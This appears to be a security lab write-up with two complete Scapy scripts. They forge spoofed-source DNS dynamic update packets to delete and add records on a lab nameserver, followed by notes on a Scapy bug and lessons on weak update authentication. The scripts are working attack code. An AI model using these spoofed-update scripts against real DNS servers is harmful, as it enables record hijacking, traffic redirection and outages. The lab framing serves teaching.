


# 05 - Scapy dns hostname change

The attack was done from outside and without VPN.
## Delete DNS
```python
import sys
from faker import Faker
from scapy.all import *
from scapy.layers.dns import *
from scapy.layers.inet import IP, ICMP, TCP


faker = Faker()

# IP
src = faker.ipv4()
dst = "152.96.7.8"

# UDP
sport = 5353
dport = 53

# DNS
rr = "hacker10.evil.zz"
zone = rr[rr.find(".") + 1:]

def isRecordPresent(ns, dns):
    answer = sr1(IP(dst=ns)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=dns)),verbose=0)
    return hasattr(answer[DNS].an, "rdata")

# https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4
# TYPE: ANY = * = 255
# Class: ANY = * = 255

p=IP(src=src, dst=dst) / UDP(sport=sport, dport=dport) / DNS(
        opcode=5,
        rd=0,
        qd=[DNSQR(qname=zone, qtype="SOA")], 
        an=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")],
        ns=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")])

send(p)
if not isRecordPresent(dst, rr):
    print("Attack successful")
else:
    print("Attack failed")

```

## Add DNS
```python
import sys
import time
from faker import Faker
from scapy.all import *
from scapy.layers.dns import *
from scapy.layers.inet import IP, ICMP, TCP

faker = Faker()

# IP
src = faker.ipv4()
dst = "152.96.7.8"

# UDP
sport = 5353
dport = 53

# DNS
rr = "hacker10.evil.zz"
type="A"
rrdata = "127.0.0.1"
zone = rr[rr.find(".") + 1:]
ttl = 60 * 60 * 24

def isRecordPresent(ns, t, dns):
    answer = sr1(IP(dst=ns)/UDP(dport=53)/DNS(
        rd=1,
        qd=DNSQR(qname=dns)),
        verbose=0)
    return hasattr(answer[DNS].an, "rdata")

print("Using source IP: {0}".format(src))
print("Sending delete for existing RRs")

delpacket=IP(src=src, dst=dst) / UDP(sport=sport, dport=dport) / DNS(
        opcode=5, # Update
        rd=0, 
        qd=[DNSQR(qname=zone, qtype="SOA")], 
        an=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")],
        ns=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")])
send(delpacket)

print("Adding: {0} {1} IN {2} {3}".format(rr,ttl, type, rrdata))
addpacket=IP(src=src, dst=dst) / UDP(sport=sport, dport=dport) / DNS(
        opcode=5, # Update
        rd=0,
        qd=[DNSQR(qname=zone, qtype="SOA")],
        an=[DNSRR(rrname=rr, type=255, rclass=0x00fe, ttl=0, rdata="")],
        ns=[DNSRR(rrname=rr, type=type, ttl=ttl, rdata=rrdata)])

send(addpacket)

if isRecordPresent(dst, type, rr):
    print("Attack successful")
else:
    print("Attack failed")

```

## Security questions

#### dyndns_add
The function dyndns_add works as shown in the screenshot.  


#### dyndns_del
This function does not works, because of a missing ALL type(https://github.com/secdev/scapy/blob/2c261e89e2a20c4636b05355ca7c8fe2d6141836/scapy/layers/dns.py#L479)

The function header has defined the type "ALL", according https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4.
```python
dyndns_del(nameserver, name, type="ALL", ttl=10):
```

But there is no definition in the https://github.com/secdev/scapy/blob/2c261e89e2a20c4636b05355ca7c8fe2d6141836/scapy/layers/dns.py#L47 for ALL/*

Therefore it's a mistake in the source file and should be fixed by the developers. As workaround the following can be executed.
```python
dyndns_del("152.96.7.8", "hacker10.evil.zz", 255)
```


## Lessoned learned
AXFR should not only be used with a IP restriction, it should have a authentication step or at least a 3-way handshake.

Overall it's astonishing that it's so easy to fake a IP packets with such a tool.
